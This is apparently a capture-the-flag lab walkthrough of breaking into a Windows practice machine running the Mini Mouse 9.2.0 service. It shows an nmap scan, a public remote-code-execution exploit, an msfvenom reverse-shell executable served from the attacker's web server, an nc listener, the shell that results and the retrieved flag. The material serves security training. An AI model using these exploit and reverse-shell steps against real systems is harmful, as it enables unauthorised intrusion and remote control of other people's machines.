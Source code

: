 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=MD5GIbatPg8)|[Download](https://drive.google.com/file/d/1K5_YA76DVtICHst2FlLVjq68dgNkMgRX/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.33
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 10:40 +08
Nmap scan report for 10.0.88.33
Host is up (0.017s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 10 Pro 14393 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=mousekatoo
| Not valid before: 2022-11-26T02:39:44
|_Not valid after:  2023-05-28T02:39:44
|_ssl-date: 2022-11-27T02:42:53+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOO
|   NetBIOS_Domain_Name: MOUSEKATOO
|   NetBIOS_Computer_Name: MOUSEKATOO
|   DNS_Domain_Name: mousekatoo
|   DNS_Computer_Name: mousekatoo
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T02:42:39+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8039/tcp  open  unknown
| fingerprint-strings:
|   FourOhFourRequest, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404 OK
|     Server: bruce_wy/1.0.0
|     Access-Control-Allow-Methods: POST,GET,TRACE,OPTIONS
|     Access-Control-Allow-Headers: Content-Type,Origin,Accept
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Credentials: true
|     P3P: CP=CAO PSA OUR
|     Content-Type: text/html
|     Content-Range: bytes 0-0/-1
|_    Content-Length : 4294967295
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
⋮
Host script results:
| smb2-time:
|   date: 2022-11-27T02:42:42
|_  start_date: 2022-11-27T02:39:44
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h36m00s, deviation: 3h34m41s, median: 0s
| smb-os-discovery:
|   OS: Windows 10 Pro 14393 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: mousekatoo
|   NetBIOS computer name: MOUSEKATOO\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-26T18:42:43-08:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 145.22 seconds
```

# 2. Checking for exploits

Port `8039` returned HTTP data

Searching for the `Server: bruce_wy/1.0.0` information on google leads us to a [Mini Mouse 9.2.0 Path Traversal exploit](https://www.exploit-db.com/exploits/49744)

Path traversal isn't exactly useful, let's search if there are more `mini mouse` exploits

```console
┌──(root㉿kali)-[~]
└─$ searchsploit mini mouse
-------------------------------------------- ---------------------------------
 Exploit Title                              |  Path
-------------------------------------------- ---------------------------------
Mini Mouse 9.2.0 - Path Traversal           | windows/webapps/49744.txt
Mini Mouse 9.2.0 - Remote Code Execution    | windows/webapps/49743.py
Mini Mouse 9.3.0 - Local File inclusion     | ios/webapps/49747.txt
-------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The RCE exploit looks interesting, let's try that

☝️ A faster method is to google for `8039 site:www.exploit-db.com`, which will also return the Mini Mouse RCE exploit as a result

# 3. Targeting the Mini Mouse service

Aanalyzing the exploit code shows that it executes a selected payload:

```console
┌──(root㉿kali)-[~]
└─$ searchsploit -m 49743
  Exploit: Mini Mouse 9.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49743
     Path: /usr/share/exploitdb/exploits/windows/webapps/49743.py
File Type: Python script, ASCII text executable

Copied to: /home/kali/49743.py

┌──(root㉿kali)-[~]
└─$ cat 49743.py
⋮
ip = input("target's ip:  ")
lhost = input("local http server ip: ")
name = input("payload file name: ")
url = "http://{}:8039/op=command".format(ip)
⋮
```

# 4. Getting a shell

Generate reverse shell executable and setup web server endpoint on Kali:

(Apache2 is already running with DocumentRoot at `/var/www/html`

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Run the exploit and get our shell:

```console
┌──(root㉿kali)-[~]
└─$ python3 49743.py
Traceback (most recent call last):
  File "/home/kali/49743.py", line 12, in <module>
    import jsonargparse
ModuleNotFoundError: No module named 'jsonargparse'

┌──(root㉿kali)-[~]
└─$ pip install jsonargparse
Defaulting to user installation because normal site-packages is not writeable
Collecting jsonargparse
  Downloading jsonargparse-4.17.0-py3-none-any.whl (165 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 165.3/165.3 kB 6.3 MB/s eta 0:00:00
Requirement already satisfied: PyYAML>=3.13 in /usr/lib/python3/dist-packages (from jsonargparse) (5.4.1)
Installing collected packages: jsonargparse
Successfully installed jsonargparse-4.17.0

┌──(root㉿kali)-[~]
└─$ python3 49743.py
target's ip:  10.0.88.33
local http server ip: kali.vx
payload file name: reverse.exe
[+] Retrieving payload
200
[+] got shell!
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.51] 49786
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Mini Mouse>whoami
whoami
mousekatoo\mickey
```

Excellent, we now have shell on the target

# 5. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Program Files (x86)\Mini Mouse>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

09/14/2021  10:46 PM               632 flag.txt.lnk
               1 File(s)            632 bytes

 Directory of C:\Users\Mickey\Desktop

09/14/2021  10:48 PM                73 flag.txt.txt
               1 File(s)             73 bytes

     Total Files Listed:
               2 File(s)            705 bytes
               0 Dir(s)  42,366,476,288 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
the more you hack, the better you become

- i.t security labs (youtube)
```
